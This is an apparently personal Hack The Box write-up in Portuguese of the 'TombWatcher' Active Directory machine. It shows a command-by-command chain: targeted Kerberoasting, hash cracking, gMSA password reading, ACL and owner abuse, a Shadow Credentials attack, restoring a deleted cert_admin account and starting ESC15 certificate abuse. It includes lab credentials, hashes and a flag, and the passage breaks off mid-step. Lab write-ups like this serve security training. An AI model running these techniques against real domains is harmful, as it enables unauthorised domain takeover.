

# Active Directory Necromancer: Como um usuário deletado pode se tornar administrador

![[TombWatcher.png | A imagem mostra um gárgula vigiando sobre uma lápide. Abaixo lemos o nome da máquina: TombWatcher]]

## Introdução

Olá mundo! Sejam todos bem vindos à mais uma aventura na minha jornada pelo mundo da cibersegurança. Hoje vamos falar de `TombWatcher`, máquina de dificuldade média do [Hackthebox](https://www.hackthebox.com).

Em `TombWatcher` temos um `Windows Active Directory` num cenário `Assumed Breach`, ou seja, já iniciamos com as credenciais de um usuário válido do domínio. Após fazer a enumeração com a ferramenta `Bloodhound`, logo conseguimos nos aproveitar de `ACLs` mal configuradas e obter acesso remoto ao servidor. Após isso conseguimos privilégios de administrador após recuperar o usuário `cert_admin` que possui privilégios de emissão de certificados e nos aproveitar da vulnerabilidade `ESC15`.

Isso será bem divertido e instrutivo, então vamos começar.

---

## Reconhecimento

### Nmap

O resultado do [[NMAP]] retornou várias portas abertas. As portas `Ldap` e `Kerberos` indicam se tratar de um `Windows Active Directory`. 

```bash
PORT STATE SERVICE REASON VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-06-09 02:41:59Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49705/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49724/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

A porta 80 http está aberta, porém há apenas a página padrão do `Microsoft IIS`.

![[tombwatcher-0.png | página padrão do Microsoft IIS]]

### Bloodhound

Atualizei meu arquivo `/etc/hosts` com `<IP> DC01.tombwatcher.htb tombwatcher.htb` e comecei a coletar o máximo de informações do alvo com a ferramenta `Bloodhound-python`, nativa do `Netexec`, usando as credenciais iniciais `henry : H3nry_987TGV!`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ nxc ldap tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!' --bloodhound -c All --dns-server $IP
LDAP        10.129.208.32   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAP        10.129.208.32   389    DC01             [+] tombwatcher.htb\henry:H3nry_987TGV!
LDAP        10.129.208.32   389    DC01             Resolved collection methods: dcom, group, rdp, psremote, objectprops, acl, trusts, container, session, localadmin
[20:11:11] ERROR    Unhandled exception in computer DC01.tombwatcher.htb processing: Error occurs while reading from remote(104)                      computers.py:268
LDAP        10.129.208.32   389    DC01             Done in 00M 40S
LDAP        10.129.208.32   389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.208.32_2025-06-08_201031_bloodhound.zip
```

### Targeted Kerberoast

Depois de descompactar o arquivo `zip` gerado pelo `Bloodhound`, usei meu script que fiz usando **chatGPT** para verificar as relações entre os usuários e grupos. Com isso descobri que meu usuário atual `henry`, possuía o privilégio `WriteSPN` sobre o usuário `Alfred`.

```bash {7}
┌──(kali㉿kali)-[~/…/Hackthebox/Medium/TombWatcher/AD_recon]
└─$ bash preacher2_AD.sh . henry@tombwatcher.htb
🔎 Found user SID: S-1-5-21-1392491010-1358638721-2126982587-1103
ℹ User 'henry@tombwatcher.htb' is not a member of any group.

🔎 Checking ACL rights assigned to the user directly...
(user) --[WriteSPN]--> ALFRED@TOMBWATCHER.HTB

🔎 Checking ACL rights assigned via groups...

🔎 For each target above, you can check group membership or user details to map escalation. 
```

Aqui já tinha um bom ponto de exploração. Por possuir o privilégio `WriteSPN`, eu poderia fazer um ataque chamado `Targeted Kerberoast`.

> [!info] Targeted Kerberoast
> Se um invasor controlar uma conta com os direitos de adicionar um `SPN` a outra (**GenericAll, GenericWrite, WriteSPN**), ele poderá abusar dela para tornar essa outra conta vulnerável ao ataque Kerberoast. 

Usando a ferramenta [Targetedkerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast), consegui a hash `krb5tgs` ou **Ticket Granting Service** do usuário `Alfred`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ faketime "$(ntpdate -q DC01.tombwatcher.htb | cut -d ' ' -f 1,2)" ~/Tools/targetedKerberoast/targetedKerberoast.py -u henry -p 'H3nry_987TGV!' --dc-ip $IP -d tombwatcher.htb
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$bcea0f1801b58bafb4479536f74566bf$2a49b11fb1cf1ed5d0710afebbd0f5f76e447a89b13d62584037152de8fd2ce6dad01964c04622ae24eab0027e950869e11a03990812210439b73261fd7a0fcddc5d73c00f137eded9e41be4e122772f0d33b155635a13c8790dc5d83ccf21d772f5b52e39e61b6e42377e99e57587738c6228cb851106e467eada3b3365cecd8e8496f56a782774c50df339327cec39450d19edfa9d2b24a503fb1cb7bc9c1a23c1881187d8a49f45a8a56afd80eda40780fb4be5e3e68f326ca747e314c411f6f0006672b0884f35f8f57c29fca0b16ce7d20eb49017408d8d2b8c9861d427e173231455c41ce80124dac13d8421e3719f533ff9a4d26d8260b51e0d798b6f667e09dade579b0327232c1cc4ee9959fb90813536437c16e4a7abddfb67f5d33c394488d105145a6ebaa874447c6894bfd08cbff5275b24f365d900f2821a570ac838d3d76b33d1be1f2c471076791bcd0c2573f4925b9b13b313c7f627bd0c9567dd17b93359859ad81c55c91adc1e398333666375ce9a77757dbcba001c8b866913bf7af495ea539379c697d49bfb68e834ec1fcbd0b018ec0c911fae9166398287589e34ef15bbd2d7356e5145e624c1d2387a53ba274d725cfa020b9514bd08219e5f5347b16bc06c3dde948ddfbf4216f138d2efe78022db790bb8a21d4af3c684ad2e5ff576d39f76879a9b4980d2087c23b1aa356706606d06ba31d1572a565d7d777de2f7c272a26597ea2189a67faabd2333bf25f19571695f118e342f1d9363f2d18517715ad84b40df71e08f191eafdba9a8f235ee093a8221344543de766b1ae149f1ef3281e44458cd3e1d36903d2f14d220a736fb80192aade43e44e87ff4c9cd96c4e32bb6a84bb41cb0aa1e8636bde65e8517b8863fbedb65be4d3f6dcc14b75fd60d71befa3a8945339604e12e283980d71357dc0d34d87b43a2cfb38acd93bc8fa6f40eb47a7b7ae6786b1854cd297a45629f6712ab0923fbe06045a2d5833c0c84a0db2236e219d0ed238fb9500d3b7c0e4c1f7f8795056b11297af2952183fdcc9478b8c5bb5d377af3e4b8cc4e7b123140c452a7b77f804f40d09fa68f723adc1dfa4bc0565a02756db3fd9ff27a82e61b94826a1117906f58209b8a5792ea46d9f12b4767e0d8c74d8c9589dd835d24c32d9e2c98b392132d58e4ec32fce9a0514a416cf96ba7b6aa0171a3cc03e4bef7ea47e7b1b366e637b67df003e714ff50015c103bc3fdce59c10d67b7f4653be06d6d89d63047865c79c6815b8a01e12b2be4b02b7ce45e8573ddae9b7d161b450f95984fedc39bd8f3e59790c93b1671982c7054e14eea49d679355f0cd736121a2d04978771f24cc2cd3420c9eef88112cf947c97a5dd5b5a4bee275ead9e25306a1d28e56cf57f50d438e3f618480e456b0168642f8174ab1a0fb639cd46f38a6ec3189da70255299dcd227974bb989db1cbb5bb02448ca2
```

Sem dificuldade, consegui quebrar a hash que possuía uma senha bem fraca.

```bash {7}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash-Alfred
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
basketball       (?)
1g 0:00:00:00 DONE (2025-06-08 22:40) 2.500g/s 1280p/s 1280c/s 1280C/s 123456..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

---

## Acesso Inicial

Usando meu script novamente, descobri que Alfred possuía o privilégio `AddSelf` sobre o grupo `INFRASTRUCTURE`. 

```bash {7}
┌──(kali㉿kali)-[~/…/Hackthebox/Medium/TombWatcher/AD_recon]
└─$ bash preacher2_AD.sh . Alfred@tombwatcher.htb
🔎 Found user SID: S-1-5-21-1392491010-1358638721-2126982587-1104
ℹ User 'Alfred@tombwatcher.htb' is not a member of any group.

🔎 Checking ACL rights assigned to the user directly...
(user) --[AddSelf]--> INFRASTRUCTURE@TOMBWATCHER.HTB

🔎 Checking ACL rights assigned via groups...

🔎 For each target above, you can check group membership or user details to map escalation. 
```

O grupo `INFRASTRUCTURE` possuía o privilégio `ReadGMSAPassword` sobre o usuário `ansible_dev$`. Então comecei por usar a ferramenta `BloodyAD` para adicionar `Alfred` ao grupo. Depois usei a ferramenta `Netexec` para obter a `hash NT` do usuário `ansible_dev$`

```bash {3,10}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ bloodyAD --host $IP -d "tombwatcher.htb" -u "Alfred" -p "basketball" add groupMember "Infrastructure" "Alfred"
[+] Alfred added to Infrastructure

┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ nxc ldap tombwatcher.htb -u 'Alfred' -p 'basketball' --gmsa
LDAP        10.129.208.32   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAPS       10.129.208.32   636    DC01             [+] tombwatcher.htb\Alfred:basketball
LDAPS       10.129.208.32   636    DC01             [*] Getting GMSA Passwords
LDAPS       10.129.208.32   636    DC01             Account: ansible_dev$         NTLM: 1c37d00093dc2a5f25176bf2d474afdc     PrincipalsAllowedToReadPassword: Infrastructure 
```

Infelizmente, `ansible_dev$` não fazia parte do grupo `REMOTE MANAGEMENT USERS`. Mas o usuário `john` fazia. Mas para chegar até ele, era necessário escalar lateralmente, pois:

1. O usuário `ansible_dev$` tinha o privilégio `forcechangepassword` sobre o usuário `sam`.
2. O usuário `sam` tinha o privilégio `WriteOwner` sobre `john`.

Então primeiro, eu mudei o password do usuário `sam` com `BloodyAD`. 

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ bloodyAD --host $IP -d "tombwatcher.htb" -u "ansible_dev$" -p :1c37d00093dc2a5f25176bf2d474afdc set password "sam" 'Password1!'
[+] Password changed successfully!
```

Daí usei as ferramentas `impacket-owneredit` e `impacket-dacledit` para que `sam` se tornasse o **owner**, ou proprietário e tivesse total controle sobre conta do `john`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ impacket-owneredit -action write -new-owner 'sam' -target-dn 'CN=john,CN=Users,DC=tombwatcher,DC=htb' 'tombwatcher.htb'/'sam':'Password1!' -dc-ip $IP
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=tombwatcher,DC=htb
[*] OwnerSid modified successfully!

┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sam' -target-dn 'CN=john,CN=Users,DC=tombwatcher,DC=htb' 'tombwatcher.htb'/'sam':'Password1!' -dc-ip $IP
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250608-233127.bak
[*] DACL modified successfully!
```

E por fim usei a ferramenta `Certipy-ad` para realizar um ataque `Shadow Credentials` e obter sua `hash NT`.

```bash {25}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ faketime "$(ntpdate -q DC01.tombwatcher.htb | cut -d ' ' -f 1,2)" certipy-ad shadow auto -u sam@tombwatcher.htb -p Password1! -account john
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: TOMBWATCHER.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'john'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c70815bc-87b0-652c-0805-86bd4e8c4143'
[*] Adding Key Credential with device ID 'c70815bc-87b0-652c-0805-86bd4e8c4143' to the Key Credentials for 'john'
[*] Successfully added Key Credential with device ID 'c70815bc-87b0-652c-0805-86bd4e8c4143' to the Key Credentials for 'john'
[*] Authenticating as 'john' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'john@tombwatcher.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'john.ccache'
[*] Wrote credential cache to 'john.ccache'
[*] Trying to retrieve NT hash for 'john'
[*] Restoring the old Key Credentials for 'john'
[*] Successfully restored the old Key Credentials for 'john'
[*] NT hash for 'john': ad9324754583e3e42b55aad4d3b8d2bf 
```

Com as credenciais do `john` eu pude me conectar ao servidor via `winrm` e pegar a flag de usuário usando a ferramenta `Evil-Winrm`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ evil-winrm -i tombwatcher.htb -u 'john' -H 'ad9324754583e3e42b55aad4d3b8d2bf'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\john\Documents> ls ../desktop


    Directory: C:\Users\john\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/8/2025   8:42 PM             34 user.txt


*Evil-WinRM* PS C:\Users\john\Documents> cat ../desktop/user.txt
d62084cc69d199d4a46dc44a7b5f9773
```

---

## Escalação de Privilégios

Usando a ferramenta `CertUtil`, listei todos os templates. No template 31 encontrei algo curioso. Entre os usuários permitidos havia um sem um nome de usuário ou grupo, apenas o `SID` (Security Identifier).

```bash {16,17}
*Evil-WinRM* PS C:\Users\john\desktop> certutil -Template
  Name: Active Directory Enrollment Policy
  Id: {DA893B98-8EEC-4A9A-B7A3-CA0392B7D97F}
  Url: ldap:
33 Templates:

<SNIPED> 

Template[31]:
  TemplatePropCommonName = WebServer
  TemplatePropFriendlyName = Web Server
  TemplatePropSecurityDescriptor = O:S-1-5-21-1392491010-1358638721-2126982587-519G:S-1-5-21-1392491010-1358638721-2126982587-519D:PAI(OA;;RPWPCR;0e10c968-78fb-11d2-90d4-00c04f79dc55;;DA)(OA;;RPWPCR;0e10c968-78fb-11d2-90d4-00c04f79dc55;;S-1-5-21-1392491010-1358638721-2126982587-519)(OA;;RPWPCR;0e10c968-78fb-11d2-90d4-00c04f79dc55;;S-1-5-21-1392491010-1358638721-2126982587-1111)(A;;LCRPLORC;;;S-1-5-21-1392491010-1358638721-2126982587-1111)(A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;DA)(A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;S-1-5-21-1392491010-1358638721-2126982587-519)(A;;LCRPLORC;;;AU)

    Allow Enroll        TOMBWATCHER\Domain Admins
    Allow Enroll        TOMBWATCHER\Enterprise Admins
    Allow Enroll        S-1-5-21-1392491010-1358638721-2126982587-1111
    Allow Read  S-1-5-21-1392491010-1358638721-2126982587-1111
    Allow Full Control  TOMBWATCHER\Domain Admins
    Allow Full Control  TOMBWATCHER\Enterprise Admins
    Allow Read  NT AUTHORITY\Authenticated Users
<SNIPED>
```

Perguntando sobre isso ao **ChatGPT**, descobri que poderia ser que o nome não havia sido resolvido na pesquisa, ou que o usuário havia sido apagado, porém ainda haviam dados remanescentes. Foi então que liguei os pontos e entendi porque a máquina se chama `TombWatcher`. É uma referência direta à `Tombstone`, do `Active Directory`.

> [!info] Tombstone
> Uma **Tombstone** é um objeto container que consiste em objetos excluídos do AD. Esses objetos não foram fisicamente removidos do banco de dados. Quando um objeto do AD, como um usuário, é excluído, o objeto permanece tecnicamente no diretório por um determinado período de tempo, conhecido como **Tombstone Lifetime**. Nesse momento, o `Active Directory` define o atributo `isDeleted` do objeto excluído como `TRUE` e o move para um container especial chamado **Tombstone** (anteriormente conhecido como `CN=Deleted` Objects). Quando o objeto for mais antigo do que o tempo de vida do tombstone, ele será removido (fisicamente excluído) pelo processo de coleta de lixo.

Para ter certeza se era isso mesmo, usei o `Powershell` para verificar o `SID`.

```bash {3,11}
*Evil-WinRM* PS C:\Users\john\desktop> $obj = New-Object System.Security.Principal.SecurityIdentifier("S-1-5-21-1392491010-1358638721-2126982587-1111")
$obj.Translate([System.Security.Principal.NTAccount])
Exception calling "Translate" with "1" argument(s): "Some or all identity references could not be translated."
At line:2 char:1
+ $obj.Translate([System.Security.Principal.NTAccount])
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : IdentityNotMappedException 


# O erro 'Exception calling "Translate" with "1" argument(s): "Some or all identity references could not be translated."' significa que o usuário foi deletado.
```

Confirmado que havia um usuário deletado, usei o comando `Get-ADObject -IncludeDeletedObjects -Filter 'ObjectSID -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -Properties *` para verificar qual usuário era.

```bash {8,17,21,22}
*Evil-WinRM* PS C:\Users\john\desktop> Get-ADObject -IncludeDeletedObjects -Filter 'ObjectSID -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -Properties *

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0 
CanonicalName                   : tombwatcher.htb/Deleted Objects/cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
CN                              : cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
codePage                        : 0
countryCode                     : 0
Created                         : 11/16/2024 12:07:04 PM
createTimeStamp                 : 11/16/2024 12:07:04 PM
Deleted                         : True
Description                     :
DisplayName                     :
DistinguishedName               : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
dSCorePropagationData           : {11/16/2024 12:07:10 PM, 11/16/2024 12:07:08 PM, 12/31/1600 7:00:00 PM}
givenName                       : cert_admin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=ADCS,DC=tombwatcher,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 11/16/2024 12:07:27 PM
modifyTimeStamp                 : 11/16/2024 12:07:27 PM
msDS-LastKnownRDN               : cert_admin
Name                            : cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
objectSid                       : S-1-5-21-1392491010-1358638721-2126982587-1111
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133762504248946345
sAMAccountName                  : cert_admin
sDRightsEffective               : 7
sn                              : cert_admin
userAccountControl              : 66048
uSNChanged                      : 13197
uSNCreated                      : 13186
whenChanged                     : 11/16/2024 12:07:27 PM
whenCreated                     : 11/16/2024 12:07:04 PM
```

Usando as informações obtidas, restaurei o usuário `cert_admin` com o comando `Restore-ADObject -Identity "CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb"`.

```bash {8}
*Evil-WinRM* PS C:\Users\john\desktop> Restore-ADObject -Identity "CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb"
*Evil-WinRM* PS C:\Users\john\desktop>
*Evil-WinRM* PS C:\Users\john\desktop> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Alfred                   cert_admin
Guest                    Henry                    john
krbtgt                   sam 
The command completed with one or more errors.
```

> [!warning] Atenção
> Em pouco tempo um script vai deletá-lo novamente. Então, caso isso aconteça, é só rodar o comando anterior.

O usuário `john` possuía o privilégio `GenericAll` sobre a `OU` (organizational unit) `ADCS`. E anteriormente foi possível ver que essa `OU` tinha relação com o usuário `cert_admin`.

```bash
LastKnownParent                 : OU=ADCS,DC=tombwatcher,DC=htb
```

Assim eu poderia mudar a senha do `cert_admin` e usar a ferramenta `Certipy-ad` com suas credenciais para encontrar templates vulneráveis. E foi exatamente isso o que eu fiz.

```bash {3,53,89-92}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ bloodyAD --host $IP -d "tombwatcher.htb" -u "john" -p :ad9324754583e3e42b55aad4d3b8d2bf set password "cert_admin" 'Password1!'
[+] Password changed successfully! 

┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ faketime "$(ntpdate -q DC01.tombwatcher.htb | cut -d ' ' -f 1,2)" certipy-ad find -vulnerable -u cert_admin@tombwatcher.htb -p 'Password1!' -dc-ip $IP -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : tombwatcher-CA-1
    DNS Name                            : DC01.tombwatcher.htb
    Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
    Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
    Certificate Validity Start          : 2024-11-16 00:47:48+00:00
    Certificate Validity End            : 2123-11-16 00:57:48+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : TOMBWATCHER.HTB\Administrators
      Access Rights
        ManageCa                        : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Enroll                          : TOMBWATCHER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Full Control Principals         : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.
```

E havia realmente um template vulnerável. Exatamente o mesmo template que me chamou a atenção e me permitiu encontrar o usuário `cert_admin`!

Pesquisando sobre a vulnerabilidade `ESC15 Arbitrary Application Policy Injection in V1 Templates (CVE-2024-49019 "EKUwu")`, encontrei a seguinte informação:

> [!info] ESC15 CVE-2024-49019
> Um invasor pode solicitar um certificado de um modelo `V1` “**WebServer**” (que normalmente só permite a EKU “**Server Authentication**”) e, por meio dessa vulnerabilidade, injetar o `OID` “**Client Authentication**” (1.3.6.1.5.5.7.3.2) como uma política de aplicativo. O certificado resultante poderia, então, ser usado para o logon do cliente, contrariando o design do modelo. Esse ataque é semelhante, em princípio, ao `ESC1` (Enrollee Supplies Subject for SAN abuse) ou `ESC2` (Any Purpose EKU abuse), mas aproveita especificamente a extensão de certificado `szOID_APPLICATION_CERT_POLICIES` (Application Policies).

Seguindo o passo a passo da [wiki do Certipy no GitHub](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu), no cenário B da vulnerabilidade `ESC15`, primeiramente eu solicito um certificado de um modelo `V1` (com “**Enrollee supplies subject**”), injetando a política de aplicativo “**Certificate Request Agent**”. Esse certificado é para que o invasor `cert_admin` se torne um agente de registro. Nenhum `UPN` é especificado para a própria identidade do invasor aqui, pois o objetivo é a capacidade do agente.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ faketime "$(ntpdate -q DC01.tombwatcher.htb | cut -d ' ' -f 1,2)" certipy-ad req -u 'cert_admin@tombwatcher.htb' -p 'Password1!' -dc-ip $IP -target 'DC01.tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WebServer' -application-policies 'Certificate Request Agent'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 3
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'cert_admin.pfx'
[*] Wrote certificate and private key to 'cert_admin.pfx'
```

Em seguida eu uso o certificado “agente” `cert_admin.pfx` para solicitar um certificado em nome do usuário `Administrator`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
